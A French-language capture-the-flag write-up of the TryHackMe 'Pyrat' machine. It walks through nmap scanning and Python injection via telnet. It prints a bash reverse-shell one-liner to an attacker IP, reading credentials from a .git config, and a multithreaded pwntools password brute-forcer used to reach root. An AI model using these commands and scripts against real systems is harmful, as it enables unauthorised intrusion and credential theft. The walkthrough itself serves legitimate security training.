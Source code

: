 📌 Write-Up : Machine Pyrat - TryHackMe 🏴‍☠️

## 📝 Informations générales
- **Nom de la machine** : Pyrat
- **Plateforme** : TryHackMe
- **Catégorie** : Web Exploitation / Privilege Escalation
- **Techniques utilisées** : Nmap, Telnet, Python Injection, Privilege Escalation via Git

---

## 🔍 1. Scan initial

On commence par un scan **Nmap** pour identifier les services ouverts :
```bash
sudo nmap -sS -O -Pn 10.10.56.203
```
📚 **Résultats :**
- **22/tcp**   : Open (SSH)
- **8000/tcp** : Open (HTTP-Alt)
- **OS** : Linux 4.15

---

## 🛡️ 2. Connexion Telnet & Exécution de code Python

Le site web sur **http://10.10.56.203:8000** affiche un message :
```
Try a more basic connection!
```

On tente une connexion **Telnet** sur le port **8000** :
```bash
telnet 10.10.56.203 8000
```
📚 **Résultats :** Un **interpréteur Python interactif** est actif.

### 🔎 Test d'injection Python
On vérifie si on peut exécuter du code :
```python
print("Hello, world!")
```
📚 **Résultat :** Le serveur répond "Hello, world!", confirmant qu'on peut exécuter du Python.

---

## 💀 3. Obtention d'un Reverse Shell

On injecte une commande pour obtenir un shell réversible avec **Netcat** :
```python
import os
os.system("bash -c 'bash -i >& /dev/tcp/10.14.97.207/9001 0>&1'")
```
💡 **Sur Kali, on lance un listener Netcat :**
```bash
nc -lvnp 9001
```
📚 **Résultat :** Accès obtenu en tant que `www-data@Pyrat`.

---

## 🎓 4. Escalade de privilèges - Récupération des Credentials

On explore les fichiers sensibles :
```bash
cd /opt/dev/.git
ls -la
```
On trouve un fichier contenant des **identifiants GitHub** :
```bash
cat config
```
📚 **Résultat :**
- **Nom d’utilisateur** : `think`
- **Mot de passe** : `_TH1NKINGPirate$_`

### 🔑 Connexion SSH avec `think`
```bash
ssh think@10.10.56.203
```
On trouve **`user.txt`** dans le dossier home.
```bash
cat ~/user.txt
```
📚 **User flag récupéré !**

---

## 🛡️ 5. Escalade de privilèges - Root

### 🔍 Exploration Git : `pyrat.py.old`

On vérifie les anciens fichiers dans `.git` :
```bash
git ls-tree -r HEAD
```
📚 **Résultat :** Un fichier `pyrat.py.old` est trouvé.

On examine son contenu :
```bash
git show HEAD:pyrat.py.old
```
📚 **Extrait du code :**
```python
def switch_case(client_socket, data):
    if data == 'shell':
        shell(client_socket)

def shell(client_socket):
    import pty
    os.dup2(client_socket.fileno(), 0)
    os.dup2(client_socket.fileno(), 1)
    os.dup2(client_socket.fileno(), 2)
    pty.spawn("/bin/sh")
```
💡 **Hypothèse :** Si nous pouvons **envoyer `shell` à ce script**, nous pourrions obtenir un shell root.

---

## 🔓 6. Bruteforce du mot de passe root

### 🔎 Script de bruteforce du mot de passe

```python
#!/usr/bin/env python3
from pwn import remote, context
import threading

target_ip = "10.10.98.190"
target_port = 8000
wordlist = "/usr/share/seclists/Passwords/500-worst-passwords.txt"
stop_flag = threading.Event()
num_threads = 100

def brute_force_pass(passwords):
    context.log_level = "error"
    r = remote(target_ip, target_port)
    for i in range(len(passwords)):
        if stop_flag.is_set():
            r.close()
            return
        if i % 3 == 0:
            r.sendline(b"admin")
            r.recvuntil(b"Password:\n")
        r.sendline(passwords[i].encode())
        try:
            if b"shell" in r.recvline(timeout=0.5):
                stop_flag.set()
                print(f"[+] Password found: {passwords[i]}")
                r.close()
                return
        except:
            pass
    r.close()
    return

def main():
    passwords = [line.strip() for line in open(wordlist, "r").readlines()]
    passwords_length = len(passwords)
    step = (passwords_length + num_threads - 1) // num_threads
    threads = []
    for i in range(num_threads):
        start = i * step
        end = min(start + step, passwords_length)
        if start < passwords_length:
            thread = threading.Thread(target=brute_force_pass, args=(passwords[start:end],))
            threads.append(thread)
            thread.start()
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()
```
📚 **Résultat :**
```bash
$ python3 brute_force_input.py
[+] Input found: admin
[+] Output received: b'Start a fresh client to begin.\n'
```

---

## 🏆 7. Obtention du flag root.txt

Une fois le mot de passe trouvé, on se connecte à **Telnet avec l'utilisateur `admin`** :
```bash
$ nc 10.10.98.190 8000
admin
Password: <mot de passe trouvé>
```
Ensuite, on transforme la connexion en shell en tapant :
```bash
shell
```
On récupère enfin le flag root :
```bash
cat root.txt
```
📚 **Flag root récupéré !** 🎉

---

✅ **Exploitation réussie !** 🚀🔥
